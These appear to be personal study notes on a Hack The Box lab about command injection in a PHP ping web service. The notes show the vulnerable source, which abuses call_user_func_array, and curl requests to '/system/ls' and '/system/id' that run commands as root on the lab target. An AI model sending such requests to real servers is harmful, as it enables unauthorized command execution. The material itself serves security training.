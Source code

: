 ```yaml
---
sticker: emoji//1f480
---
```

Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.

Let us assess together a web service that is vulnerable to command injection.

You may have come across connectivity-checking web services in router admin panels or even websites that merely execute a ping command towards a website of your choosing.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target service and follow along.

Suppose we are assessing such a connectivity-checking service residing in `http://<TARGET IP>:3003/ping-server.php/ping`. Suppose we have also been provided with the source code of the service.

**Note**: The web service we are about to assess does not follow the web service architectural designs/approaches we covered. It is quite close to a normal web service, though, as it provides its functionality in a programmatic way, and different clients can use it for connectivity-checking purposes.


```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url_ip);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

A function called _ping_ is defined, which takes two arguments _host_url_ip_ and _packets_. The request should look similar to the following. `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3`. To check that the web service is sending ping requests, execute the below in your attacking machine and then issue the request.

```shell-session
smoothment@htb[/htb]$ sudo tcpdump -i tun0 icmp
 tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
 listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 11:10:22.521853 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 1, length 64
 11:10:22.521885 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 1, length 64
 11:10:23.522744 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 2, length 64
 11:10:23.522781 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 2, length 64
 11:10:24.523726 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 3, length 64
 11:10:24.523758 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 3, length 64
```

- The code also checks if the _packets_'s value is more than 4, and it does that via an array. So if we issue a request such as `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3333`, we're going to get an _Only 1-4 packets!_ error.
- A variable called _cmd_ is then created, which forms the ping command to be executed. Two values are "parsed", _packets_ and _host_url_. [escapeshellarg()](https://www.php.net/manual/en/function.escapeshellarg.php) is used to escape the _host_url_'s value. According to PHP's function reference, _escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes allowing you to pass a string directly to a shell function and having it be treated as a single safe argument. This function should be used to escape individual arguments to shell functions coming from user input. The shell functions include exec(), system() shell_exec() and the backtick operator._ If the _host_url_'s value was not escaped, the below could happen.
![](cybersecurity/images/Pasted%2520image%252020250219153637.png)
- The command specified by the _cmd_ parameter is executed with the help of the _shell_exec()_ PHP function.
- If the request method is GET, an existing function can be called with the help of [call_user_func_array()](https://www.php.net/manual/en/function.call-user-func-array.php). The _call_user_func_array()_ function is a special way to call an existing PHP function. It takes a function to call as its first parameter, then takes an array of parameters as its second parameter. This means that instead of `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows. `http://<TARGET IP>:3003/ping-server.php/system/ls`. This constitutes a command injection vulnerability!

You can test the command injection vulnerability as follows.

```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php
```


# Question
---

![](cybersecurity/images/Pasted%2520image%252020250219153716.png)

If we test `id`, we get the following:

```
curl http://10.129.202.133:3003/ping-server.php/system/id

uid=0(root) gid=0(root) groups=0(root)
```

